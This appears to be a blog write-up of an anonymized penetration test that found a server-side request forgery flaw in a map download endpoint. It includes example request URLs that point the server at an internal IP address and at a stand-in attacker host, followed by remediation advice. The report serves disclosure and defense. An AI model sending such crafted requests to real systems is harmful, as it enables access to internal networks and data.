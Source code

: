 ```yaml
---
layout: post
title: 'IT Company Web Applicaion PT'
tags:
 - web
 - real-engagement
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: red
---
```


No images (image for the step by step PoC are essential as evidence but will not be provided
) or references will be provided, as this assessment was a real engagement. Additionally, all URLs and functionalities have been anonymized to ensure privacy and compliance with non-disclosure agreements (NDAs). {: .lead} <!--break-->

# IT Company

## Type of activity and objectives
The objective of this engagement was to conduct a web application penetration test for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from the outside, with the goal of preventing unauthorized access, compromise and data exfiltration.
## Scope of evaluation
The evaluation was focused on the exposed web application. This scope encompassed assessing the security and potential vulnerabilities within this surface.
## Executive Summary 
The assessment of the target application identified a Server-Side Request Forgery (SSRF) vulnerability. SSRF is a security vulnerability that allows an attacker to manipulate the server into making unintended network requests to internal or external resources. Exploiting this vulnerability could potentially lead to data exposure, service disruption, and unauthorized access to sensitive information.
## Finding Summary
- SSRF
## Attack storyline or vulnerabilities with CVSS,CVE and remedations
### SSRF
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
#### Proof of Concept (PoC)

1. URL: `.it/maps/api/v1/print/download?url=http%3a%2f%2f10.150.56.238%3a8080%2f`
   
   This URL appears to be susceptible to SSRF. By providing a specially crafted `url` parameter, we can attempt to access internal or external resources.

   Example:
   `.it/maps/api/v1/print/download?url=http://malicious-site.com/malicious-file`

2. URL: `.it/maps/api/v1/print/download?url=https%3a%2f%2f.it%2fgeoserver%2fp_bzAdministrativeUnits`

   Similar to the previous URL, this one is also vulnerable to SSRF. The provided `url` parameter seems to accept URLs as inputs, which can be manipulated to request arbitrary resources.

   Example:
   `.it/maps/api/v1/print/download?url=https://malicious-site.com/malicious-file`

By using the provided URLs and manipulating the `url` parameter, an attacker could attempt to trigger unintended requests to external or internal resources. This vulnerability could potentially lead to unauthorized data access or other security risks. To mitigate this vulnerability, ensure proper input validation, restrict outgoing requests to trusted domains, and follow best practices for SSRF prevention.

#### Remediations
- Input Validation and Whitelisting: Validate and sanitize user-provided input thoroughly before making any external requests. Use whitelists of allowed domains or IP addresses to restrict the destinations of requests.

- Use Proper Libraries: If your application needs to make requests to external resources, use well-maintained libraries or modules that offer built-in protections against SSRF. These libraries might have features like URL validation and restriction.

- Bound IP Ranges and Ports: If possible, configure the server to only allow requests to specific IP ranges or ports. This can help prevent SSRF attacks by restricting where requests can be sent.

- Use DNS Resolution Safeguards: Prevent the SSRF vulnerability by using DNS resolution safeguards, such as forcing DNS resolution through a proxy that only resolves safe domains.

- Avoid User-Controlled URLs: Avoid making requests to URLs provided by users unless absolutely necessary. If user-controlled URLs are needed, ensure that they go through rigorous validation and sanitization.

- Network Segmentation: Isolate your application's server from internal systems by using network segmentation. This can prevent SSRF attacks from reaching sensitive internal resources.
